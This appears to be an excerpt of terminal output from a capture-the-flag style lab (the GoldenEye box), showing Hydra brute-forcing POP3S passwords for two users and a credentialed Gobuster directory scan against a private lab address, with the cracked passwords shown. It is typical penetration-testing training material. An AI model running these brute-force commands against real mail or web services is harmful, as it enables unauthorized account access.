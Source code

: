 ```bash
[DATA] attacking pop3s://192.168.56.101:55006/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55006][pop3] host: 192.168.56.101   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-14 22:13:11


                        
┌──(kali㉿kali)-[~/OSCP/boxes/goldeneye]
└─$ gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --username boris --password  InvincibleHack3r -x php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.101
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Auth User:               boris
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/04/14 21:56:10 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 294]
                                               
===============================================================
2021/04/14 22:01:09 Finished
===============================================================


└─$ hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3s://192.168.56.101 -s 55006
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-14 22:16:07
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3s://192.168.56.101:55006/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[55006][pop3] host: 192.168.56.101   login: natalya   password: bird
[STATUS] 111.00 tries/min, 222 tries in 00:02h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-14 22:18:07

 
```
